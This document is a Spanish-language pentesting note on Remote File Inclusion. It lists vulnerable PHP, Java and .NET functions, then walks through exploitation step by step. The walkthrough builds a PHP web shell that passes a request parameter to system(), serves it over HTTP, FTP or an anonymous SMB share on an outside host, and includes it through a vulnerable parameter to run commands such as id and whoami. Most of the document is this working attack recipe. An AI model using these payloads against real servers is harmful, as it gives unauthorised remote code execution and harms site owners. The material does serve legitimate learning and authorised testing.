 Cuando una página web es vulnerable a [[Local file inclusion (LFI)]] normalmente también lo es a RFI. Para ver el contenido de este archivo revise antes el de LFI.

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|

Estas son las funciones vulnerables a RFI o LFI, como vemos las que son vulnerables a RFI también lo son a LFI.

### Verify vuln

Para verificar la existencia de esta vulnerabilidad debe esta activada la opción que mencionamos anteriormente en [[Local file inclusion (LFI)]].

```shell-session
allow_url_include = On
```

Para verificarlo realmente lo que haremos será intentar pasar la IP propia de la máquina con una ruta para que no nos lo rechace por cualquier tema de firewall:

```shell-session
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1/index.php
```

Si funciona la página será vulnerable a RFI

### Ejecución remota

Primero crearemos un archivo malicioso para poder ejecutar el código:

```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

#### HTTP

Creamos un servidor web con python para poder compartir este archivo:

```shell-session
python3 -m http.server <LISTENING_PORT>
```

Y usamos la shell:

```shell-session
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1/shell.php&cmd=id
```
#### FTP

Puede que el WAF bloquee la conexión con servidores web o el protocolo http por lo que podemos hacer lo mismo pero con FTP.

Levantamos el servidor ftp:

```shell-session
python -m pyftpdlib -p 21
```

Y hacemos lo mismo que en el ejemplo anterior:

```shell-session
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

#### SMB

Si el servidor objetivo está alojado en una máquina windows no necesitamos que la opción allow_url_include esté habilitado para explotar el RFI, podemos utilizar el protocolo SMB.

Levantamos el servidor de forma que se pueda autenticar de forma anónima:

```shell-session
impacket-smbserver -smb2support share $(pwd)
```

Y podemos hacerlo como lo estábamos haciendo antes:

```shell-session
http://<SERVER_IP>:<PORT>/index.php?language=\\OUT_IP\share\shell.php&cmd=whoami
```